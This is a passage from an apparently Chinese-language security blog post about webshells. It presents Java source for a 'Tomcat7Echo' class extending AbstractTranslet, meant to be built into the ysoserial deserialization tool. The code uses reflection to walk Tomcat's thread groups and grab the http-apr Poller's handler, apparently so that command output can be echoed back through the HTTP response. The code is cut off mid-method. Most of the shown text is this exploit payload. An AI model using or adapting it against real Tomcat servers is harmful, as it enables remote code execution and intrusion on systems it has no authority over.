 ![1](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/webshell/2.png)



根据上述挖掘到的执行链，构造代码集成到ysoerial中

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.tomcat.util.buf.ByteChunk;
import java.lang.reflect.Field;
import java.util.ArrayList;

public class Tomcat7Echo extends AbstractTranslet {
    public Tomcat7Echo(){
        try {
            Object obj = Thread.currentThread();
            Field field = obj.getClass().getSuperclass().getDeclaredField("group");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getDeclaredField("threads");
            field.setAccessible(true);
            obj = field.get(obj);

            Thread[] threads = (Thread[]) obj;
            for (Thread thread : threads) {
                if (thread.getName().contains("http-apr") && thread.getName().contains("Poller")) {
                    try {
                        field = thread.getClass().getDeclaredField("target");
                        field.setAccessible(true);
                        obj = field.get(thread);


                        field = obj.getClass().getDeclaredField("this$0");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        field = obj.getClass().getDeclaredField("handler");
                        field.setAccessible(true);
```